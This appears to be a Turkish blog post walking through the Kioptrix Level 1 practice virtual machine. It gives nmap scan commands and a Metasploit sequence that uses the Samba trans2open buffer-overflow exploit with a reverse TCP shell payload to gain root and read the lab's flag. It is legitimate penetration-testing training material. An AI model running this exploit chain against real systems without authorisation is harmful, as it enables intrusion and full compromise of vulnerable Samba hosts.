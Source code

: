 ```yaml
---
layout: post
title: Kioptrix Level 1 Çözüm
---
```





&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Kioptrix</strong>, içerisindeki çeşitli zafiyetleri istismar ettiğimiz, bunlar sayesinde erişimler elde 
edebildiğimiz ve bu şekilde sistemi ele geçirmeye çalıştığımız bir sanal makine uygulamasıdır.
Bu yazımızda Kioptrix <strong>Level 1</strong> sanal makinesi çözümünü yapacağız. Sanal makineyi <a href = "http://www.kioptrix.com/blog/test-page/" >şu</a> bağlantı 
üzerinden indirebilirsiniz. 
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Öncelikle sanal makinenın ağ üzerinde hangi ip adresini aldığını öğrenmek için <strong>nmap</strong> aracıyla
genel bir ağ taraması yapıyoruz. 

	nmap -sV -T4 192.168.0.0/24


<img src="/img/kioptrix/hedef-tespiti.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu ağ taraması sonucuna göre Kioptrix Level 1 sanal makinasının aldığı ip adresi 192.168.0.22 olarak
görünüyor. Bu bilgiyi kullanarak şimdi açık portları tespit etmek için başka bir tarama yapacağız.

	nmap -sV -T4 192.168.0.22 --open


<img src="/img/kioptrix/hedef-tarama.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu işlem sonucunda açık olan portları aşağıdaki gibi listeliyoruz.  <strong>Netbios-ssn</strong> servisi
üzerinden işlem yapmaya çalışacağız. Burada sambanın bu sürümünde bulunan <strong>arabellek taşması(buffer overflow)</strong>
açığı istismar edilecektir.


 | 139/tcp | open | netbios-ssn |	 Samba smbd (workgroup: MYGROUP)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Metasploit Framework</strong> üzerinde <strong>exploit</strong> aramaya başlıyoruz. 

	msf> search samba

<img src="/img/kioptrix/search-exploit.jpeg">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada listelenen çözümlerden sistemimiz ile ilgili olan seçiyoruz. 

	msf>  use exploit/linux/samba/trans2open



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu aşamada kullandığımız exploit sayesinde samba servisi açığından yararlanabiliyoruz fakat
hedef sistem üzerinde bir kontrol elde edemiyoruz. Burada hedef sisteme sızmayı sağlayan ve 
istediğimiz işlemleri gerçekleştirmemizi sağlayan <strong>payload</strong>lardan birini kullanmamız gerekiyor.
Uygun olabilecek payloadları aratıyoruz ve buradan <strong>reverse_tcp</strong> seçimini yapıp hedefe karşı bir
reverse shell uygulaması yapacağız. Hedefin tepkisi sonucu terminalden bir reverse shell bağlantısı
kurulacak. Sonrasında eklememiz gereken parametreleri görmek ve eklemek için aşağıdaki adımları
uyguluyoruz.



	msf> show payloads
	msf> set PAYLOAD generic/shell_reverse_tcp
	msf> options
	msf> set RHOST 192.168.0.18
	msf> set LHOST 192.168.0.14
	msf> run

<img src="/img/kioptrix/search-payload.jpeg">

<img src="/img/kioptrix/options.jpeg">

<img src="/img/kioptrix/root-erisim.jpeg">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Belli bir süre devam eden işlem sonucunda hedefe root erişimi sağlıyoruz. Artık içeride 
bulunmak istenen mesajı aramaya başlıyoruz. Önemli gördüğümüz dizinler arasında dolanırken
gözümüze <strong>var</strong> dizini takılıyor . Buraya girdiğmizde <strong>mail</strong> adlı bir dosya daha görüyoruz. Bunun da
içerisine girdiğmizde dosya tipi <strong>ASCII mail text</strong> olan '<strong>root</strong>' adlı bir dosya görüyoruz. Bunu 
okuduğumuzda bu  makinenin <strong>FLAG</strong> değerine ulaşıyoruz.

<img src="/img/kioptrix/sonuc1.jpeg">
<img src="/img/kioptrix/sonuc2.jpeg">



